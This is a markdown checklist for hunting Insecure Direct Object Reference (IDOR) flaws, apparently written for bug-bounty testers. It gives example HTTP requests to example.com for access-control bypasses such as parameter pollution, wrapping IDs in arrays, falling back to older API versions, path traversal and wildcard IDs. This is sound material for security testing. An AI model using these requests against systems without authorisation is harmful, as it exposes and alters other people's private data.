 # IDOR_Checklist
IDOR hunting checklist
# Insecure Direct Object Reference (IDOR)

## Introduction
IDOR stands for Insecure Direct Object Reference is a security vulnerability in which a user is able to access and make changes to data of any other user present in the system.

## Where to find
- Usually it can be found in APIs.
- Check the HTTP request that contain unique ID, for example `user_id` or `id`

## How to exploit
- [ ] Add parameters onto the endpoints for example, if there was
```
GET /api/v1/getuser HTTP/1.1
Host: example.com

Try this to bypass

GET /api/v1/getuser?id=1234 HTTP/1.1
Host: example.com
...
```

- [ ] HTTP Parameter pollution
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

user_id=hacker_id&user_id=victim_id
```

- [ ] Add .json to the endpoint
```
GET /v2/GetData/1234 HTTP/1.1
Host: example.com
...

Try this to bypass

GET /v2/GetData/1234.json HTTP/1.1
Host: example.com
...
```

- [ ] Test on outdated API Versions

POST /v2/GetData HTTP/1.1
Host: example.com
...

id=123

Try this to bypass

POST /v1/GetData HTTP/1.1
Host: example.com
...

id=123


- [ ] Wrap the ID with an array.
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}

Try this to bypass

POST /api/get_profile HTTP/1.1
Host: example.com
...

{"id":[111]}
```

- [ ] Wrap the ID with a JSON object
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":111}

Try this to bypass

POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":{"user_id":111}}
```

- [ ] JSON Parameter Pollution.
```
POST /api/get_profile HTTP/1.1
Host: example.com
...

{"user_id":"hacker_id","user_id":"victim_id"}
```

- [ ] Try decode the ID, if the ID encoded using md5,base64,etc.
```
GET /GetUser/dmljdGltQG1haWwuY29t HTTP/1.1
Host: example.com
...
```
dmljdGltQG1haWwuY29t => victim@mail.com

- [ ] If the website using GraphQL, try to find IDOR using GraphQL.
```
GET /graphql HTTP/1.1
Host: example.com
...
```
```
GET /graphql.php?query= HTTP/1.1
Host: example.com
...
```
- [ ] MFLAC (Missing Function Level Access Control)
```
GET /admin/profile HTTP/1.1
Host: example.com

Try this to bypass

GET /ADMIN/profile HTTP/1.1
Host: example.com
...
```

- [ ] Try to swap uuid with number
```
GET /file?id=90ri2-xozifke-29ikedaw0d HTTP/1.1
Host: example.com
...

Try this to bypass

GET /file?id=302
Host: example.com
...
```

- [ ] Change HTTP Method
```
GET /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...

Try this to bypass

POST /api/v1/users/profile/111 HTTP/1.1
Host: example.com
...
```

- [ ] Path traversal
```
GET /api/v1/users/profile/victim_id HTTP/1.1
Host: example.com
...

Try this to bypass

GET /api/v1/users/profile/my_id/../victim_id HTTP/1.1
Host: example.com
...
```

- [ ] Change request `Content-Type`
```
GET /api/v1/users/1 HTTP/1.1
Host: example.com
Content-type: application/xml

Try this to bypass

GET /api/v1/users/2 HTTP/1.1
Host: example.com
Content-type: application/json
```

- [ ] Send wildcard instead of ID
```
GET /api/users/111 HTTP/1.1
Host: example.com

Try this to bypass

GET /api/users/* HTTP/1.1
Host: example.com

GET /api/users/% HTTP/1.1
Host: example.com

GET /api/users/_ HTTP/1.1
Host: example.com

GET /api/users/. HTTP/1.1
Host: example.com
```
- [ ] Try google dorking to find new endpoint


